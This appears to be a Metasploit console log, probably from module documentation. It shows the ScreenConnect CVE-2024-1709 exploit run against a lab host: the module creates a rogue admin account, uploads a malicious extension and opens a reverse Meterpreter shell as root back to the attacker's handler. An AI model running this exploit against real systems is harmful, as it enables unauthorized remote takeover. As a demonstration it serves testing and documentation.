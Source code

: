 ```
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 20.3.31734 running on Linux.
[!] Did not locate the __VIEWSTATEGENERATOR.
[!] Did not locate the __VIEWSTATEGENERATOR.
[*] Created account: mvyzbmti:HhstWDEb59XYRfME (Note: This account will not be deleted by the module)
[!] Could not locate anti forgery token after login with admin credentials.
[*] Uploaded Extension: 347933e7-dbaf-1c86-eca1-2a873c31b04d
[*] Sending stage (3045380 bytes) to 192.168.86.72
[*] Removing Extension: 347933e7-dbaf-1c86-eca1-2a873c31b04d
[+] Deleted App_Extensions/pxstqhwe.ashx
[*] Meterpreter session 4 opened (192.168.86.42:4444 -> 192.168.86.72:36862) at 2024-02-22 14:47:33 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.72
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/screenconnect
meterpreter > exit
[*] Shutting down session: 4

[*] 192.168.86.72 - Meterpreter session 4 closed.  Reason: User exit
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) >
```
